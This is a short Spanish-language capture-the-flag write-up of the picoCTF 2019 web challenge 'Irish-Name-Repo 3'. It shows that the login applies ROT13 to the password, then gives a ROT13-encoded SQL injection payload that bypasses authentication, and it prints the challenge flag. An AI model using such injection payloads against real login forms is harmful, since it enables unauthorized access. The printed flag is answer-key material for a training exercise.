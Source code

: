 # Irish-Name-Repo 3itulo
#picoCTF2019 #WEB_EXPLOITATION 
## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
## Solución
En esta ocasión ahora tenemos solo un campo para intoducir la contraseña pues la consulta SQL es la siguiente
```php
<pre>password: 
SQL query: SELECT * FROM admin where password = ''
</pre><h1>Login failed.</h1>
```

Sin embargo también nos encontramos con que recorre el texto introducido 13 posiciones:
```php
<pre>password: abcd
SQL query: SELECT * FROM admin where password = 'nopq'
</pre><h1>Login failed.</h1>
```

Sin embargo con el siguiente payload podemos conseguir la bandera.
```php
<pre>password: 'be''='
SQL query: SELECT * FROM admin where password = ''or''=''
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}</p>
```

==picoCTF{3v3n_m0r3_SQL_06a9db19}==
## Notas adicionales

## Referencias